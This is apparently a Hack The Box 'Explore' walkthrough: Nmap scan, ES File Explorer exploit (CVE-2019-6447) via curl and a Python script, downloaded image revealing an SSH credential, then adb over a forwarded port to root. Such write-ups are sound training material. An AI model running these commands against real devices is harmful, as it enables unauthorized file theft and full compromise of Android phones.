

# 05 - Nmap
```sql
# Nmap 7.91 scan initiated Tue Oct 26 05:04:52 2021 as: nmap -sC -sV -p- -oA nmap/explore -vvv 10.10.10.247
Nmap scan report for 10.10.10.247
Host is up, received echo-reply ttl 63 (0.076s latency).
Scanned at 2021-10-26 05:04:52 EDT for 161s
Not shown: 65530 closed ports
Reason: 65530 resets
PORT      STATE    SERVICE REASON         VERSION
2222/tcp  open     ssh     syn-ack ttl 63 (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|   2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqK2WZkEVE0CPTPpWoyDKZkHVrmffyDgcNNVK3PkamKs3M8tyqeFBivz4o8i9Ai8UlrVZ8mztI3qb+cHCdLMDpaO0ghf/50qYVGH4gU5vuVN0tbBJAR67ot4U+7WCcdh4sZHX5NNatyE36wpKj9t7n2XpEmIYda4CEIeUOy2Mm3Es+GD0AAUl8xG4uMYd2rdrJrrO1p15PO97/1ebsTH6SgFz3qjZvSirpom62WmmMbfRvJtNFiNJRydDpJvag2urk16GM9a0buF4h1JCGwMHxpSY05aKQLo8shdb9SxJRa9lMu3g2zgiDAmBCoKjsiPnuyWW+8G7Vz7X6nJC87KpL
5555/tcp  filtered freeciv no-response
39713/tcp open     unknown syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 26 Oct 2021 09:21:00 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest: 
|     HTTP/1.1 412 Precondition Failed
|     Date: Tue, 26 Oct 2021 09:21:00 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 501 Not Implemented
|     Date: Tue, 26 Oct 2021 09:21:05 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 26 Oct 2021 09:21:20 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 26 Oct 2021 09:21:05 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 26 Oct 2021 09:21:20 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 26 Oct 2021 09:21:20 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ??random1random2random3random4
|   TerminalServerCookie: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 26 Oct 2021 09:21:20 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|_    Cookie: mstshash=nmap
42135/tcp open     http    syn-ack ttl 63 ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open     http    syn-ack ttl 63 Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.91%I=7%D=10/26%Time=6177C4F5%P=x86_64-pc-linux-gnu%r(N
SF:ULL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port39713-TCP:V=7.91%I=7%D=10/26%Time=6177C4F4%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Tue,\x2
SF:026\x20Oct\x202021\x2009:21:00\x20GMT\r\nContent-Length:\x2022\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n
SF:\r\nInvalid\x20request\x20line:\x20")%r(GetRequest,5C,"HTTP/1\.1\x20412
SF:\x20Precondition\x20Failed\r\nDate:\x20Tue,\x2026\x20Oct\x202021\x2009:
SF:21:00\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,B5,"HTTP/1
SF:\.0\x20501\x20Not\x20Implemented\r\nDate:\x20Tue,\x2026\x20Oct\x202021\
SF:x2009:21:05\x20GMT\r\nContent-Length:\x2029\r\nContent-Type:\x20text/pl
SF:ain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20not\x
SF:20supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad\x20
SF:Request\r\nDate:\x20Tue,\x2026\x20Oct\x202021\x2009:21:05\x20GMT\r\nCon
SF:tent-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\
SF:r\nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20version
SF::\x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nD
SF:ate:\x20Tue,\x2026\x20Oct\x202021\x2009:21:20\x20GMT\r\nContent-Length:
SF:\x2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnectio
SF:n:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessionRe
SF:q,DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Tue,\x2026\x20Oct\
SF:x202021\x2009:21:20\x20GMT\r\nContent-Length:\x2073\r\nContent-Type:\x2
SF:0text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInvalid
SF:\x20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\?`~\
SF:?\0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(TerminalS
SF:erverCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Tue,\x20
SF:26\x20Oct\x202021\x2009:21:20\x20GMT\r\nContent-Length:\x2054\r\nConten
SF:t-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\
SF:r\nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x20mst
SF:shash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Date:\x20Tue,\x2026\x20Oct\x202021\x2009:21:20\x20GMT\r\nContent-Length
SF::\x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnecti
SF:on:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01\0\
SF:0e\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
Service Info: Device: phone

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 26 05:07:33 2021 -- 1 IP address (1 host up) scanned in 160.98 seconds
```


We know that it is an Android box. Instead of googling around as soon as the output fills up the screen, I like to go ahead and use netcat to see how the service communicates with us to get a raw idea. Then proceeding to look for known vulnerabilities will be a good start as this is an easy box.


# 10 - ES File Explorer





There is a public exploit against ES File Explorer, but we don't have a way to check the version. The date on the exploit, however, is promising. Let us blindly run the script against the server.

In, short the exploit sends a json payload to 59777 (open port vulnerability).

`$ curl --header "Content-Type: application/json" --request POST --data '{"command":"listFiles"}' http://10.10.10.247:59777`


# Commands
```bash
┌──(kali㉿kali)-[~/htb/explore/exploit]
└─$ python3 ./50070.py  help 10.10.10.247   
[-] WRONG COMMAND!
Available commands : 
  listFiles         : List all Files.
  listPics          : List all Pictures.
  listVideos        : List all videos.
  listAudios        : List all audios.
  listApps          : List Applications installed.
  listAppsSystem    : List System apps.
  listAppsPhone     : List Communication related apps.
  listAppsSdcard    : List apps on the SDCard.
  listAppsAll       : List all Application.
  getFile           : Download a file.
  getDeviceInfo     : Get device info.
```

The one we get lucky with is the listPics command.

# Pics
```bash
┌──(kali㉿kali)-[~/htb/explore/exploit]
└─$ python3 ./50070.py  listPics 10.10.10.247   

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```


creds.jpg is likely short for *credentials*.

# creds.jpg
```bash
┌──(kali㉿kali)-[~/htb/explore/exploit]
└─$ python3 ./50070.py  getFile 10.10.10.247    /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
┌──(kali㉿kali)-[~/htb/explore/exploit]
└─$ open out.dat
```

Let's now open it.

# Credentials


We've found credentials :)


# Shell
```bash
┌──(kali㉿kali)-[~/htb/explore]
└─$ cat creds 
kristi: Kr1sT!5h@Rp3xPl0r3!

┌──(kali㉿kali)-[~/htb/explore]
└─$ ssh kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
```


# 15 - PrivEsc


# Open Ports
```bash
:/sdcard $ ss -ltn
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN      0      50           *:59777                    *:*                  
LISTEN      0      8       [::ffff:127.0.0.1]:39021                    *:*                  
LISTEN      0      50           *:2222                     *:*                  
LISTEN      0      4            *:5555                     *:*                  
LISTEN      0      50       [::ffff:10.10.10.247]:35709                    *:*                  
```

Port 5555 was filtered in our Nmap result. Let's set up port forwarding to enumerate the service because we have no idea what is listening on it.

# Port Forwarding
```bash
┌──(kali㉿kali)-[~/htb/explore]
└─$ ssh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555 -p 2222
Password authentication
Password: 
:/ $ 
```

-L flag opens a port in our box and listens for connections to forward it to the remote server on the same port.
# ADB


Second nmap result is quite verbose because we are making the connection locally. 5555 turns out to be the adb interface. Let us connect to it and get root.

# Root
```bash
┌──(kali㉿kali)-[~/htb/explore]
└─$ adb connect 127.0.0.1:5555 
connected to 127.0.0.1:5555

┌──(kali㉿kali)-[~/htb/explore]
└─$ adb -s 127.0.0.1:5555 shell
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
x86_64:/ $ su
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
:/ # find / -name root.txt 2>/dev/null
/data/root.txt
```
